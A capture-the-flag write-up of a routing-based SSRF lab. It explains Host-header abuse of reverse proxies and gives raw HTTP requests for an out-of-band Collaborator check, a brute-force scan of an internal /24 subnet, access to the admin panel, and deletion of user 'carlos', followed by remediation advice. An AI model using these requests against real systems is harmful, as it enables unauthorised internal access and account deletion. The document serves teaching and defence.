










## Challenge Overview
* **Challenge name**: Routing-based SSRF
* **Category**: HTTP Host Header attacks / Routing-based SSRF
* **Level**: Practitioner
* **Objective**: Exploit Routing-based SSRF via the Host header to scan the internal subnet `192.168.0.0/24`, access the internal admin panel, and delete the user account `carlos`.

---

## 1. Core Fundamentals

Unlike classical Server-Side Request Forgery (SSRF) vulnerabilities rooted in unvalidated URL parameters processed at the application source code level, Routing-based SSRF directly abuses the packet forwarding and routing mechanisms of intermediary network infrastructure, such as Reverse Proxies, Load Balancers, or API Gateways.

### 1.1. The Privileged Position of Reverse Proxies and Load Balancers

In modern enterprise architectures, reverse proxies and load balancers hold a highly privileged position: they face the public Internet to ingest external traffic while maintaining unhindered connectivity across the entire private internal network. When a client transmits an HTTP request, this intermediary layer parses the request and dynamically routes it toward the appropriate internal backend server.

### 1.2. Virtual Hosting Mechanics and Virtual Host Brute-Forcing

Enterprises frequently co-locate both public web applications and sensitive internal management portals on the same physical infrastructure. Internal services are often designated private subdomains that either resolve exclusively to RFC 1918 private IP addresses or possess no public DNS records at all. The reverse proxy relies on the string value of the incoming `Host` header to dispatch requests to the target virtual host. An adversary can target the public IP and brute-force internal hostnames or IP addresses via the `Host` header to access these hidden internal services.

### 1.3. CIDR Subnet Notation in SSRF Exploitation

Private network spaces are standardized by RFC 1918. Classless Inter-Domain Routing (CIDR) notation denotes the number of fixed network prefix bits:
- **10.0.0.0/8:** Fixes the first 8 bits, spanning addresses from `10.0.0.0` through `10.255.255.255`.
- **192.168.0.0/16:** Fixes the first 16 bits, spanning addresses from `192.168.0.0` through `192.168.255.255`.
- **192.168.0.0/24:** Fixes the first 24 bits (the initial 3 octets), varying solely across the final octet from 0 to 255. This defines the empirical scanning range targeted in this lab.

---

## 2. Attack Architecture / Threat Model

### 2.1. Root Cause and Vulnerability Preconditions

- **Dangerous Dynamic Routing Configuration:** The reverse proxy forwards upstream traffic based directly on the raw string value supplied in the client's `Host` header without enforcing a domain whitelist.
- **Absence of Network Segmentation:** The network architecture fails to implement internal firewall rules preventing perimeter proxies from establishing connections to sensitive internal administration subnets.
- **Blind Trust in Proxy Traffic:** Internal administrative microservices observe incoming traffic originating from the reverse proxy's trusted internal IP, granting privileged access without requiring secondary user authentication.

### 2.2. Attack Flow Diagram

```text
[ Attacker via Internet ]
       │
       │  Sends Request to Public IP:
       │  GET / HTTP/2
       │  Host: 192.168.0.x           <── Specifies internal host IP
       ▼
[ Reverse Proxy / Load Balancer ]
       │
       │  Parses Host header: "192.168.0.x"
       │  Dynamically initiates TCP connection and forwards request into LAN
       ▼
[ Internal Network 192.168.0.0/24 ]
       │
       ├──► 192.168.0.1   ──► No response (504 Gateway Timeout)
       ├──► ...
       └──► 192.168.0.112 ──► Internal Admin Server responds (302 Found / 200 OK)
                                       │
[ Reverse Proxy ] ◄───────────────────┘
       │
       ▼
[ Relays Admin Panel response back to Attacker ]
```

---

## 3. Vulnerability Exploitation

The vulnerability exploitation procedure is executed across five distinct phases:

### Step 1: Validating Routing Behavior via Burp Collaborator

Generate a unique test domain using Burp Collaborator: `7hpz51ithjgd7mbgpuhqwc0lhcn4buzj.oastify.com`. In Burp Suite Repeater, dispatch a request with the `Host` header pointing to the Collaborator domain:

```http
GET / HTTP/2
Host: 7hpz51ithjgd7mbgpuhqwc0lhcn4buzj.oastify.com
Cookie: session=tDnRXon8pzm7t3zttvHoERcp6qxtJ72u; ...
```

The server returns an `HTTP/2 200 OK` response echoing Burp Collaborator server metadata:



Check the Burp Collaborator client tab. The console records multiple DNS queries and HTTP connections originating from the target infrastructure's public/gateway IP address. This conclusively proves that the reverse proxy actively resolves hostnames and dynamically routes outbound traffic based on arbitrary `Host` header inputs.



---

### Step 2: Brute-Forcing the Internal Subnet with Burp Intruder

Transfer the request to Burp Intruder. Place the payload position markers around the final octet of the internal subnet `192.168.0.0/24`:

```http
GET / HTTP/2
Host: 192.168.0.§0§
Cookie: session=tDnRXon8pzm7t3zttvHoERcp6qxtJ72u; ...
```

Important requirement: Ensure that the option **Update Host header to match target** under Target configuration is unchecked to preserve the custom `Host` header value. Configure the payload type as **Numbers** from 0 to 255 with a step of 1:



Launch the attack. Most requests return `504 Gateway Timeout` errors because no host is listening on those IP addresses. However, payload `112` returns an `HTTP/2 302 Found` response redirecting to `Location: /admin`. The target internal administration server is positively identified at IP `192.168.0.112`.



---

### Step 3: Accessing the Internal Administrative Interface

Send a `GET /admin HTTP/2` request with `Host: 192.168.0.112` in Burp Repeater. The server returns an `HTTP/2 200 OK` response, exposing the complete internal administrative portal:



---

### Step 4: Analyzing CSRF Defenses and User Deletion Forms

Inspect the HTML markup of the administrative interface to examine the user deletion form:

```html
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
    <input required type="hidden" name="csrf" value="mBEQtb7lLp0Pv708A9j3WRG8h2CWzZa6">
    <label>Username</label>
    <input required type='text' name='username'>
    <button class='button' type='submit'>Delete user</button>
</form>
```



Attempting a rapid shortcut using `GET /admin/delete?username=carlos` is rejected with `HTTP/2 400 Bad Request` and error message: `"Missing parameter 'csrf'"`. This confirms that user deletion strictly enforces `POST` requests bearing a valid CSRF token.



An attacker can utilize the CSRF token provided directly within the administrative form markup, or alternatively establish an active session to generate a valid CSRF token:



---

### Step 5: Executing the User Deletion Command to Solve the Challenge

Construct a complete `POST` request directed to the internal administrative server `192.168.0.112`:

```http
POST /admin/delete HTTP/2
Host: 192.168.0.112
Cookie: session=tDnRXon8pzm7t3zttvHoERcp6qxtJ72u; ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=mBEQtb7lLp0Pv708A9j3WRG8h2CWzZa6&username=carlos
```

The server processes the command and responds with `HTTP/2 302 Found` redirecting to the homepage. Carlos's account is permanently deleted.



Review the lab web interface in the browser to verify challenge completion.



---

## 4. Remediation Strategies

### 4.1. Secure Reverse Proxy and Load Balancer Configuration

- **Enforce Static Upstream Routing:** Never rely on dynamic `Host` header values to resolve upstream proxy destinations (e.g., avoid vulnerable configurations like `proxy_pass http://$http_host`). Proxies must explicitly forward to defined static upstream server groups.
- **Implement Strict Domain Whitelisting:** The reverse proxy must validate incoming `Host` headers against an explicit domain whitelist, immediately rejecting requests (`400 Bad Request`) featuring IP addresses, unfamiliar hosts, or unapproved domains.
- **Hardened Nginx Server Block:** Define a default catch-all server block to terminate connections bearing unmapped domain names:

```nginx
server {
    listen 80 default_server;
    listen 443 ssl default_server;
    server_name _;
    return 444; # Terminate connection without response
}
```

### 4.2. Network and Infrastructure-Layer Defense

- **Strict Network Segmentation & Egress Filtering:** Isolate reverse proxies within dedicated DMZ networks. Enforce egress firewall policies prohibiting reverse proxies from initiating connections to sensitive management subnets or cloud metadata endpoints (`169.254.169.254`).
- **Multi-Tiered Internal Authentication:** Internal administrative services must require independent authentication (mTLS, SSO, Multi-Factor Authentication) rather than blindly trusting requests simply because they originate from a reverse proxy IP address.
